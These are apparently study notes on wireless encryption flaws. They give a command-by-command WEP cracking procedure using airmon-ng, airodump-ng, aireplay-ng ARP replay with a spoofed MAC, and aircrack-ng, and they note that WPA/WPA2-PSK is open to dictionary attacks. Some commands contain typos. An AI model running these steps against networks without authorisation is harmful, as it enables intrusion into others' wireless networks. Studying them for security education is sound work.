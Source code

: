 # Chapter 4: WLAN Encryption Flaws
* WEP is broken to death
* WPA/WPA2 is much more secure

## WLAN encryption
* IEEE 802.11 standards:
 * Wired Equivalent Privacy (WEP - rip)
 * WiFi Protected Access (WPA)
 * WiFi Protection Access v2 (WPAv2)

## WEP encryption
* Cracked even as early as 2000
* `ifconfig wlan0 up`
* `airmon-ng start wlan0` to create `mon0`
* `iwconfig` to verify mon0 was created
* `airodump-ng mon0` to find the wireless network
* `airodump=ng -bbssid <Access point's MAC> --channel <AP's
channel> --write WEPCrackingDemo mon0` sniffs and saves
packets of target AP
* In the AUTH column, you should see SKA once a client
connects.
* To capture more packets we will capture ARP packets
and inject them back to simulate ARP responses
* In a separate terminal:
 * `aireplay-ng -3 -b <AP's MAC> -h <MAC>` -3: ARP replay, -b:
 our network's BSSID, -h: spoofed client's MAC
 * Only works for authenticated and associated MAC addresses
* In a separate window, start cracking the WEP key:
 * `aircrack-ng WEPCracking WEPCrackingDemo-01.cap`
 * Wait 5-10 minutes while still running airodump-ng
 and aireplay-ng in the background
 * Once key is found, aircrack-ng displays it and exits
* Even if client leaves during the process, the fake
authentication and association using Shared Key Auth bypassing
(discussed earlier) should do the deal

## WPA/WPA2
* WPA (= WPA v1) uses TKIP encryption
* WPA2 uses AES-CCMP encryption
* Both allow:
 * EAP auth (Enterprise - Radius servers)
 * Pre-Shared Key (PSK) (Personal)
* WPA/WPA2 PSK is vulnerable to dictionary attacks
* Per-session key (Pairwuse Transient Key - PTK) derived
using the PSK, network SSID, Authenticator Nounce (ANounce),
Supplicant Nounce (SNounce), AP MAC, and Wi-Fi Client MAC
* PTK encrypts data between AP and client
* Everything can be eavesdropped over the air except for
the PSK
* Cracking WPA-PSK this way works the same way for WPA2-PSK
